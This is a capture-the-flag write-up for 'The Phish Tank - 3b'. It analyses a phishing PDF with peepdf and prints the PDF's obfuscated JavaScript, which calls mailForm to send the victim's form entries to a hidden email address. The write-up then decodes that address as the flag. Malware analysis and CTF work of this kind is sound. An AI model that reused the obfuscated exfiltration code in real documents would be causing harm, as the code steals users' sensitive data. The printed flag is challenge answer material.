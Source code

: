 # The Phish Tank - 3b
> An additional email sent from that same suspicious IP address contained an attached PDF document. The user who opened this document started to fill out the form, but became suspicious and reported it to Snowpoint’s security team instead of hitting the submit button.

> The Snowpoint security team would like you to download the attached PDF document and determine what would happen if the submit button was clicked.

> Where would the sensitive information provided in the form be sent?

> Flag format: email address. Example: icsjwgctf@gmail.com

## About the Challenge
We need to do reverse engineering on a PDF file to obtain the email (Sorry, I can't provide you the file, because its a malware)

## How to Solve?
First, im using static-analysis approach to find the flag and then using [peepdf](https://github.com/jesparza/peepdf). Here is the command that I used

```shell
python2 peepdf.py -f /home/kali/Downloads/download.pdf -i
```

![peepdf](images/peepdf.png)

As you can see, there is malicious elements such as Javascripts in objects 4 and 5. And if we check the object using this command

```
object 4
```

![js_elements](images/js_elements.png)

And then there is an obfuscated javascript file like this

```javascript
var c80ac4f9c2=this.getField(function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-1-o)})).join("")}(33,137,150,151)+995..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-25-o)})).join("")}(28,156,163,150)),feddc07405=function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-14-o)})).join("")}(14,134)+30..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-38-o)})).join("")}(4,154)+1137788359..toString(36).toLowerCase()+16..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-39)})).join("")+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-40-o)})).join("")}(36,176,186,174,179)+598116..toString(36).toLowerCase()+30..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-71)})).join("")+921..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-57-o)})).join("")}(0,174,154),b15d02c677=this.getField(32788..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-56-o)})).join("")}(25,198,194,201,196)+13..toString(36).toLowerCase()),run=0;1==run&&this.mailForm(!1,feddc07405,"","",c80ac4f9c2,b15d02c677);
```

Im using some of the deobfuscator javascript tools online like this [one](https://lelinhtinh.github.io/de4js/) but the result is not i good. So I decided to execute the Javascript code manually on my browser console to obtain the email address

```javascript
var feddc07405=function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-14-o)})).join("")}(14,134)+30..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-38-o)})).join("")}(4,154)+1137788359..toString(36).toLowerCase()+16..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-39)})).join("")+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-40-o)})).join("")}(36,176,186,174,179)+598116..toString(36).toLowerCase()+30..toString(36).toLowerCase().split("").map((function(r){return String.fromCharCode(r.charCodeAt()+-71)})).join("")+921..toString(36).toLowerCase()+function(){var r=Array.prototype.slice.call(arguments),t=r.shift();return r.reverse().map((function(r,o){return String.fromCharCode(r-t-57-o)})).join("")}(0,174,154)
console.log(feddc07405)
```

So, the flag was located in `feddc07405` variable and we need to print the `feddc07405` variable to be able to read the flag

![flag](images/flag.png)

```
jupiter47@galactic.plat
```